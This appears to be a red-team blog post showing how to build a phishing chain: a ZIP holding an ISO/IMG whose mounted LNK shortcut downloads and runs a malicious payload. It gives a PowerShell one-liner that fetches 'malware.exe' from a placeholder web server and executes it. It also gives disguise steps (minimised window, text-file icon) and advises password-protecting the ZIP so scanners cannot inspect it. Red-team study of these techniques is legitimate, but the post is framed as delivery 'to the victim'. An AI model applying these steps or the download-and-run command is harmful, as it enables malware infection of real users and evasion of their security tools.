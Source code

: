 ```yaml
---
title: Abusing ISO/IMG Files
author: Z0ldyck
date: 2022-08-17 18:32:00 -0500
categories: [Blogging, Tutorial]
tags: [REDTEAM]
---
```


السلام عليكم ورحمة الله وبركاته

# introduction

Lately, I have been developing my custom tools and implementing/recreating some of the known techniques used by threat actors. Well, this post is not going to be focused on any specific tool but will showcase one technique that I enjoyed reimplementing and some advice for people who are looking to advance their work specifically for Red Teamers (It could help blue ppl, but I would assume they already do that). I think one of the biggest things that most red teamers (to be specific the ppl in my circle) are missing or not giving some time for is reading reports related to Threat Actors' new techniques. Most of these reports at the first sight might feel that the target audience is mostly Threat Hunters, but in reality, it will help both sides. One side can discover/identify these threats and the other can use them or even advance/change them to something even better, whatever the case is. My point is It doesn't matter what group you are in, reading them will 100% benefit you. I will suggest looking into reports related to Threat Actors from Mandiant/CrowdStrike. There is more, but these are faviourt ones


In this post, I will be going over one of the techniques that I see many threat actors using to compromise victims' machines. This technique is very well known for many blue teamers. You can find below a full map of the execution:

![](../../images/isoimg/1.png)

The attack is straightforward, we will be sending phishing emails that contain or provide a link to download a ZIP file. After decompressing the ZIP file the user would find an IMG/ISO file. A double click from the user will mount a disk containing an LNK file that will download our malicious payload and run it.

I will skip the email and the ZIP file part as these are not the main focus of this post (There is a ton of ways to deliver your files). First, create your malicious payload and host it on a web server, you can use your C2 web server or anything similar. Moving on to creating our LNK file, there is a lot of ways to create one. You can even use powershell/C# to create it, but we will just use the simple method cause why not :)


## LNK FILE

Create a shortcut of any app you have first, then open file properties. Check the image below:

![](../../images/isoimg/2.png)

Here is what you need to consider:

- Target → This is where you will put your command. You can use something like the command below to download and run your malicious payload:
```
powershell wget http://<your_webserver>/malware.exe -O C:\somewhere; malware.exe
```

(Note: Don’t use this command to deliver your payloads, it is not the best way and you will get caught immediately. This is just an example lol)

- Run → Set it to Minimized (Just trust me :p )

- File icon → I think you need to consider that. In the Shortcut section click on “Change Icon” and browse to “C:\Windows\System32\shell32.dll”. You will have a bunch of icons to choose from. I went with the text file icon.

## ISO FILE

This should be enough for the LNK file. Now let’s create the ISO file. I will be using AnyBurn to do this process, but you can use whatever you prefer. You might be wondering why would we go with an ISO/IMG file, the answer is simple users will double click it and a new CD Drive will be attached, and in some cases, it will bypass some security solutions. After creating the ISO you can just save it into an archive and somehow deliver it with some magic to the victim :p

In AnyBurn select “Create image file from files/folders”

![](../../images/isoimg/3.png)

In the new window add your folder/file and click on “Next”

![](../../images/isoimg/4.png)

Next, you will choose where to save your ISO file. By clicking “Create Now” your file will be created and saved in that destination.

![](../../images/isoimg/5.png)

![](../../images/isoimg/6.png)

## DEMO

Now all you need to do is save it in a ZIP file because there is a tone of solutions that started triggering ISO/IMG files. I would also suggest making a ZIP file protected with a password so these solutions wouldn’t be able to scan them (If that’s wrong correct me please!). Here is a demo of the whole process:

![](../../images/isoimg/dev.mp4)

I hope you enjoyed reading this post, I will be sharing more stuff (I don’t know why I am doing that at the end of my break lol)
